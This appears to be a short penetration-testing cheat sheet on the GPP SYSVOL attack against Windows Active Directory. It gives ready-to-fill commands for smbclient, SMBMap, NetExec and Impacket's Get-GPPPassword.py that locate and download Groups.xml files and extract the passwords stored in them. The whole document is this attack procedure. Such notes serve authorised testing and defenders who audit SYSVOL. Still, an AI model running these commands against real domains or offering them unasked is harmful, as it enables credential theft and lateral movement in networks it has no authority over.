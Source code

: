 # Unix Shell

## 01 - Samba Suite Utils

Authentication syntax.

```
$ smbclient -U "<username>%<password>" //<IP>/SYSVOL

$ smbclient -U "<username>" --password="<password>" //<IP>/SYSVOL
```

Retrieve XML files recursively.

```
smb: \> cd <domain_name>/Policies

smb: \> recurse on

smb: \> prompt off

smb: \> mget *.xml
```

## 02 - SMBMap

```
$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> -F "Groups.xml" --search-path "SYSVOL\"

$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> --download "SYSVOL\path\to\remote\Groups.xml"
```

## 03 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --spider SYSVOL --pattern Groups.xml

$ netexec smb -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file /path/to/remote/Groups.xml
```

## 04 - Impacket

```
$ Get-GPPPassword.py [<domain>/]<username>:"<password>"@<IP>

$ Get-GPPPassword.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

---
## References

 - [VK9 Security: Exploiting GPP SYSVOL (Groups.xml)](https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/)